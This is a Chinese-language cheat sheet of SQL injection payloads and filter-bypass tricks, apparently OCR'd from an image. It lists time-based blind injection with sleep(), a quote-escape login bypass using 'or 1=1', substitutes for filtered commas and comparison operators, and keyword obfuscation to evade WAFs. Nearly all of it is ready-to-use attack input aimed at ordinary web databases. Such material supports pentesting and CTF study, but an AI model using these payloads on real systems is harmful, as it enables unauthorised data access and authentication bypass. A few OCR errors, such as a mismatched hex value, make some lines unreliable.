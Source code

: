 select case when 1=1 then sleep(3) else 0 end

## substr的逗号过滤绕过可使用from for语句

select case when ascii(substr(user from 1 for 1))=114 then sleep(3) else 0 end)

## 单引号过滤
账号输入1\
密码输入 or 1=1 --+

\将引号给转义了
select from xxx where id='1\' and pw=' or 1=1--+

将引号中的内容转为16进制
例如table_name='user' user的16进制为0x7573657573 table_name=0x7573657573

## 逗号绕过
substr()和mid()函数都可用from for

使用join
union select 1,2#
可变为union select * from (select 1)a join (select 2)b

使用like 
select ascii(mid(user(),1,1))=80#
等价于select user() like 'r%'

对于limit用offset来绕过
select * from news limit 0,1#
等价于select * from news limit 1 offset 0

## 绕过比较符号><
使用greatest(),least()
例如select * from users where id =1 and ascii(substr(database(),1,1))>64
等价于select * from users where id = 1 and greatest(ascii(substr(database(),1,1)),64)=64

## 绕过注释符
id=1' union select 1,2,3||'1
最后的or '1闭合查询语句最后的单引号
或者id=1' union select 1,2,'3

## 绕过Union,select where等
（1）使用注释符 U//NIO//N
（2）使用+ - . U+N+I.O-N
(3)使用大小写 UnIoN
(4)内联注释绕过
/*! uNion */
(5)空白符 %09 %0a~%0d %a0 %20
(6)双关键字绕过 UnUnionion 
